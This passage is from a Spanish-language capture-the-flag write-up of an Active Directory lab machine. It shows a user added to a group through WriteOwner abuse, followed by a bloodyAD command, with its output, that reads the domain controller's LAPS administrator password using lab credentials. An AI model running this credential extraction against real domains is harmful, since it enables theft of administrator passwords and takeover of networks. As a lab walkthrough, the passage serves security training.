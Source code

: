 Luego podemos verificar si el usuario pertenece al grupo, efectivamente este ahora ya pertenece al grupo.

![20240326202907.png](20240326202907.png)

Para entender mejor podemos visitar : 
- [https://notes.shashwatshah.me/windows/active-directory/writeowner](https://notes.shashwatshah.me/windows/active-directory/writeowner)
### Read Laps Password

Ahora teniedo al usuario en el grupo `core Staff` y este tiene permisos de `ReadLAPSpassword` podremos leer las credenciales del usuario administrador.

- [https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password)
Para esto podemos usar `ldapsearch` o `bloodyAd` que en mi caso será esta ultima que usare:

```python
❯ python3 bloodyAD/bloodyAD.py -u 'JDgodd' -d streamio.htb -p 'JDg0dd1s@d0p3cr3@t0r' --host 10.10.11.158 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

distinguishedName: CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
ms-Mcs-AdmPwd: /2Mq7iLWQrajdn
ms-Mcs-AdmPwdExpirationTime: 133560178409993118

```

Validando las credenciales podemos ver que son validas 

![20240326203724.png](20240326203724.png)
